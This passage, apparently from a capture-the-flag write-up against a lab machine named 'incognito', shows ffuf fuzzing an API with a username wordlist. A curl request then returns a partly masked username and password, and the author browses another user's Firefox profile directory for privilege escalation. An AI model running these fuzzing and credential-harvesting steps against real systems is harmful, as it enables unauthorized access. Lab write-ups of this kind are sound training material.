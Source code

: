 	wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt

```bash
ffuf -w /opt/Seclists/Usernames/Names/names.txt -u http://10.10.120.54:8081/api/FUZZ -X POST -H "Content-Type: application/json" \
      -d '{"key":"toxxxy"}' -fr "error" -fs 16
```
its takes a time, I used that time to brush my teeth :D. 

```bash
:: Progress: [9418/10164] Job [1/1] 21 req/sec Duration: [0:07:22]
:: Progress: [9418/10164] Job [1/1] 21 req/sec Duration: [0:07:22]
:: Progress: [9418/10164] Job [1/1] 21 req/sec Duration: [0:07:22] 
toxxxy                   [Status: 200, Size: 49, Words: 1, Lines: 1 
:: Progress: [9419/10164] Job [1/1] 21 req/sec Duration: [0:07:23]
:: Progress: [9429/10164] Job [1/1] 20 req/sec Duration: [0:07:23] 
:: Progress: [9429/10164] Job [1/1] 20 req/sec Duration: [0:07:23]
```

Yeah, got it lets send the request with curl

```bash
curl -X POST http://10.10.120.54:8081/api/toxxxy -H "Content-Type: application/json" -d '{"key":"7454cxxxxxxxxxxxxxxxxxxxxxxbc7ef"}'

{"username":"toxxxy","password":"Devxxxxxxxx01"}
```
We got password successfully. Then what ssh get user.txt

## Privilege Escalation 

The machine has two users as we known tommy and _carlJ_

In the user carlJ home dir lists has interesting

```bash
tommy@incognito:/home/carlJ$ ls -la
total 44
drwxr-xr-x 8 carlJ carlJ 4096 Jun 11 06:22 .
drwxr-xr-x 4 root  root  4096 Apr  3 20:27 ..
lrwxrwxrwx 1 root  root     9 Apr  3 13:44 .bash_history -> /dev/null
-rw-r--r-- 1 carlJ carlJ  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 carlJ carlJ 3772 Mar 26 23:32 .bashrc
drwx------ 4 carlJ carlJ 4096 Apr  3 20:24 .cache
drwxr-x--- 3 carlJ carlJ 4096 Apr  3 21:44 .config
drwx------ 3 carlJ carlJ 4096 Apr  3 21:44 .gnupg
drwxrwxr-x 3 carlJ carlJ 4096 Apr 16 14:08 .local
drwx------ 2 carlJ carlJ 4096 Apr 16 16:02 mailing
drwxr-xr-x 5 carlJ carlJ 4096 Mar 28 17:29 .mozilla
-rw-r--r-- 1 carlJ carlJ  808 Mar 26 23:32 .profile
```

Two interesting directories _mailing_ and _.mozilla_ but we not having permission to open mailling dir.

```bash
tommy@incognito:/home/carlJ/.mozilla$ ls
extensions  firefox  systemextensionsdev
tommy@incognito:/home/carlJ/.mozilla$ cd firefox/
tommy@incognito:/home/carlJ/.mozilla/firefox$ ls
 0ryxwn4c.default-release  'Crash Reports'  'Pending Pings'
 45ir4czt.default           installs.ini     profiles.ini
tommy@incognito:/home/carlJ/.mozilla/firefox$ 

```
